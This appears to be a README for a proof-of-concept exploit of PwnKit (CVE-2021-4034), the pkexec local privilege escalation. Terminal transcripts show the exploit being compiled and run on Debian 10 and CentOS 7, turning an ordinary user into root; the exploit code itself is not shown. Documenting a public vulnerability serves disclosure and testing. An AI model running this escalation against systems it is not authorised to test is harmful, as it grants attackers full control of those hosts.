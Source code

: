 # CVE-2021-4034
PoC for PwnKit: Local Privilege Escalation Vulnerability in polkit’s pkexec (CVE-2021-4034) 
Contact Ashish Kumar Laxkar Mail ID: ashish.laxkar16@gmail.com

https://seclists.org/oss-sec/2022/q1/80  

# PoC

Verified on Debian 10 and CentOS 7.

```
ashish@debian:~$ grep PRETTY /etc/os-release
PRETTY_NAME="Debian GNU/Linux 10 (buster)"
ashish@debian:~$ id
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
user@debian:~$ gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
user@debian:~$ ./cve-2021-4034-poc
# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(user)
```

```
[ashish@centos ~]$ grep PRETTY /etc/os-release
PRETTY_NAME="CentOS Linux 7 (Core)"
[ashish@centos ~]$ id
uid=11000(user) gid=11000(user) groups=11000(user) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[ashish@centos ~]$ gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
[ashish@centos ~]$ ./cve-2021-4034-poc
sh-4.2# id
uid=0(root) gid=0(root) groups=0(root),11000(user) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
sh-4.2# exit
```
